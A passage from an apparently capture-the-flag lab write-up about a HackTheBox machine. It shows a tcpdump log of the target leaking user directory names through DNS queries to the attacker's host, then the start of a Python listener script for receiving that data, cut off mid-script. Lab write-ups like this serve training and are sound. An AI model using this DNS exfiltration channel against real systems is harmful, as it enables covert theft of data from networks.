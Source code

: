 ```
20:35:04.531929 IP (tos 0x0, ttl 127, id 9016, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53805 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:06.823075 IP (tos 0x0, ttl 127, id 9017, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53806 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:08.851451 IP (tos 0x0, ttl 127, id 9018, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53807 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:10.839111 IP (tos 0x0, ttl 127, id 9019, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53808 > 10.10.14.23.53: [udp sum ok] 2+ A? Administrator. (31)
20:35:12.854740 IP (tos 0x0, ttl 127, id 9020, offset 0, flags [none], proto UDP (17), length 59)
    10.10.10.106.53809 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Administrator. (31)
20:35:14.895892 IP (tos 0x0, ttl 127, id 9021, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.53810 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:16.886216 IP (tos 0x0, ttl 127, id 9022, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53811 > 10.10.14.23.53: [udp sum ok] 2+ A? alan. (22)
20:35:19.474240 IP (tos 0x0, ttl 127, id 9023, offset 0, flags [none], proto UDP (17), length 50)
    10.10.10.106.53812 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? alan. (22)
20:35:21.312568 IP (tos 0x0, ttl 127, id 9025, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56757 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:23.309541 IP (tos 0x0, ttl 127, id 9028, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56758 > 10.10.14.23.53: [udp sum ok] 2+ A? jorge. (23)
20:35:25.299775 IP (tos 0x0, ttl 127, id 9029, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.56759 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? jorge. (23)
20:35:27.338241 IP (tos 0x0, ttl 127, id 9031, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56760 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:29.355372 IP (tos 0x0, ttl 127, id 9032, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56761 > 10.10.14.23.53: [udp sum ok] 2+ A? Public. (24)
20:35:31.523795 IP (tos 0x0, ttl 127, id 9034, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.56762 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? Public. (24)
20:35:33.646114 IP (tos 0x0, ttl 127, id 9035, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.56763 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:35:35.669198 IP (tos 0x0, ttl 127, id 9038, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58924 > 10.10.14.23.53: [udp sum ok] 2+ A? rupal. (23)
20:35:37.681147 IP (tos 0x0, ttl 127, id 9040, offset 0, flags [none], proto UDP (17), length 51)
    10.10.10.106.58925 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? rupal. (23)
```

We just listed `c:\users` and found the following directories:

- c:\users\Administrator
- c:\users\alan
- c:\users\jorge
- c:\users\rupal

Doing things manually takes a long time so I started working on a python script to automate the process. [Overcast](https://www.hackthebox.eu/home/users/profile/9682) [[Blog](https://www.justinoblak.com/)] was also working on the box and was one step ahead of me. He shared with me a script he had already created.

```python
#!/usr/bin/python3

from socket import *
from requests_futures.sessions import FuturesSession
import time
import select


s = socket(AF_INET, SOCK_DGRAM)
s.settimeout(10)
s.bind(('10.10.14.23', 53))

def recv():
    print("[+] Receiving data:")
    try:
        while True:
```